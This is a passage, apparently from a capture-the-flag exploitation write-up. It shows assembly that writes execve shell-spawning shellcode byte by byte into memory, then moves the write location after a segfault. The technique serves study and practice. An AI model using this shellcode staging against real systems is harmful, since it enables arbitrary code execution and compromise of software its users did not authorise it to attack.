 mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0xe6
inc r14
ret
mov byte [r14], 0x56
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0x89
inc r14
ret
mov byte [r14], 0xe6
inc r14
ret
mov byte [r14], 0x31
inc r14
ret
mov byte [r14], 0xd2
inc r14
ret
mov byte [r14], 0x6a
inc r14
ret
mov byte [r14], 0x3b
inc r14
ret
mov byte [r14], 0x58
inc r14
ret
mov byte [r14], 0xf
inc r14
ret
mov byte [r14], 0x5
</pre>
Alright, looks good.

#### Segfault! What!?!?

Apparently, whatever this mapping is, it is used for something somewhere.
Oh well, time to adjust where we're writing our shellcode.

<pre>
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
</pre>
